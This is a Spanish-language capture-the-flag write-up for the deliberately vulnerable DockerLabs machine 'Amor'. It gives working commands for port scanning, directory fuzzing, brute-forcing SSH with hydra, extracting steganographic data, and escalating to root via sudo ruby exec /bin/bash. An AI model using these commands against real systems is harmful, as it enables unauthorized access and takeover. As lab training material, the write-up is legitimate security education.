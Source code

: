 # 📄 Informe Técnico – Máquina Vulnerable **Amor** (DockerLabs)

**Nivel:** Fácil

**Autor:** AlejandroSL

**Fecha:** 10/05/2025

   ![](/Amor/Imagenes/Logo.png)

---

## 📌 Objetivo

Acceder a la máquina vulnerable **Amor**, identificar los servicios expuestos, obtener acceso mediante explotación remota y realizar escalada de privilegios hasta obtener acceso como **root**.

---

## 🔧 Despliegue de la máquina

1. Descargamos la máquina desde DockerLabs y la descomprimimos:

   ```bash
   unzip amor.zip
   sudo bash auto_deploy.sh amor.tar
   ```

   ![](/Amor/Imagenes/Despliegue.jpeg)

2. Verificamos la conectividad mediante `ping`:

   ```bash
   ping -c1 172.17.0.2
   ```

   ![](/Amor/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

1. Escaneo rápido de puertos abiertos:

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   Resultado: Puertos **22 (SSH)** y **80 (HTTP)** abiertos.
   ![](/Amor/Imagenes/Puerto.jpeg)

2. Extracción de puertos desde el archivo generado:

   ```bash
   extractPorts allPorts.txt
   ```

3. Escaneo profundo con scripts y detección de versiones:

   ```bash
   nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
   ```

   ![](/Amor/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accedimos a la web en `http://172.17.0.2` y observamos varias notificaciones que revelaban nombres de usuarios: **Carlos** y **Carlota**.
![](/Amor/Imagenes/Pagina.jpeg)

---

## 🪓 Fuzzing de directorios

Usamos `gobuster` para buscar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/javascript/jquery/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Resultado: Se encontró el directorio **/javascript/jquery/jquery**
![](/Amor/Imagenes/Gobuster.jpeg)
![](/Amor/Imagenes/Gobusterdir.jpeg)

---

## 🔐 Fuerza Bruta SSH

Se intentaron múltiples combinaciones de usuarios. Finalmente, usando `hydra` se logró acceder al servicio **SSH** como el usuario **carlota**:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Credenciales válidas:

* **Usuario:** carlota
* **Contraseña:** babygirl
  ![](/Amor/Imagenes/Hydra.jpeg)

---

## 🖥️ Acceso a la máquina

Ingresamos exitosamente mediante SSH:

```bash
ssh carlota@172.17.0.2
```

![](/Amor/Imagenes/SSH.jpeg)

---

## 🕵️ Revisión de archivos y análisis de imagen

Dentro del directorio `/home/carlota/Desktop/fotos/vacaciones/` encontramos un archivo `imagen.jpg`. Lo transferimos a nuestra máquina con un servidor web:

En la máquina vulnerable:

```bash
python3 -m http.server 8080
```

En nuestra máquina atacante:

```bash
wget http://172.17.0.2:8080/imagen.jpg
```

![](/Amor/Imagenes/Descarga.jpeg)

Revisamos los metadatos de la imagen:

```bash
exiftool imagen.jpg
```

![](/Amor/Imagenes/Metadatos.jpeg)

---

## 🧪 Esteganografía y Decodificación

Usamos `steghide` para extraer información oculta en la imagen:

```bash
steghide extract -sf imagen.jpg
```

> No se solicitó contraseña (se presionó Enter).

Se extrajo un archivo `secret.txt` que contenía una cadena en **Base64**. La decodificamos:

```bash
echo 'c2VzbGFjYXNhZGVwaW55cG9u' | base64 -d > script.sh
cat script.sh
```

Contenido extraído:
**eslacasadepinypon**
![](/Amor/Imagenes/datos.jpe)

---

## 🧨 Escalada de Privilegios

Ejecutamos `sudo -l` para ver los comandos disponibles con permisos de **sudo**:

```bash
sudo -l
```

Se nos permite ejecutar este comando **sin contraseña**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Esto nos da una **shell como root**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

![](/Amor/Imagenes/root.jpeg)

---

## ✅ Conclusión

* Se identificaron servicios clave mediante escaneo de puertos.
* Se encontraron usuarios desde la web y se obtuvo acceso por fuerza bruta SSH.
* Se analizó una imagen que contenía una cadena Base64 con una palabra clave importante.
* Finalmente, se logró escalar privilegios a **root** explotando permisos `sudo` sobre un binario seguro mal configurado.
